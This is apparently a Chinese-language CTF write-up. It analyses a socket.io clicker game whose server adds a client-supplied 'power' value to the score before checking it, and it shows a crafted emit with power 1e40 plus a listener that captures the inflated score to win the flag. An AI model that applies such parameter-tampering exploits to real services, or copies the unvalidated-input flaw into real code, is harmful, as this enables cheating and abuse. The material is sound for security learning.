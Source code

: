 ```js
        let newValue = Math.floor(Math.random() * json.power) + 1 + oldValue

        sessions[socket.id] = newValue
        socket.emit('recievedScore', JSON.stringify({"value":newValue}));

        if (json.power > 10) {
            socket.emit('error', JSON.stringify({"value":oldValue}));
        }

        errors[socket.id] = oldValue;
    });
```

主要漏洞点分析：

在这里，递增的分数`power`没有经过验证，先进行了分数的增加，增加完才回来对`power`的审查，即使是审查，也只是弹出一条错误提示，再把之前的正确分数赋值给`errors`，没有纠正`sessions[socket.id]`的值


```js
        // 计算新的分数
        let oldValue = sessions[socket.id]
        // 未验证power是否合法
        let newValue = Math.floor(Math.random() * json.power) + 1 + oldValue

        sessions[socket.id] = newValue
        socket.emit('recievedScore', JSON.stringify({"value":newValue}));

        if (json.power > 10) {
            socket.emit('error', JSON.stringify({"value":oldValue}));
        }
        errors[socket.id] = oldValue;
```

尝试控制`power`的值，赋值一个非常非常大的值，一次实现分数大于`1e20`，从而获取flag

```js
socket.emit('click', JSON.stringify({"value": 1 , "power": 1e40}));
```

发送的一瞬间，分数改变了，但是又迅速变成了`error`的分数，也就是上一次的正确分数1

![27](https://the0n3.top/medias/buildCTF/27.png)

写个函数捕获返回内容

```js
socket.on('recievedScore', (data) => {
    console.log("Received Score:", data);
});
```

捕获内容后，我可以看到有一瞬间她确实是认可我的，但是又迅速变成了错误分数，所以应该是存在条件竞争，写个函数，死缠烂打😭

![28](https://the0n3.top/medias/buildCTF/28.png)
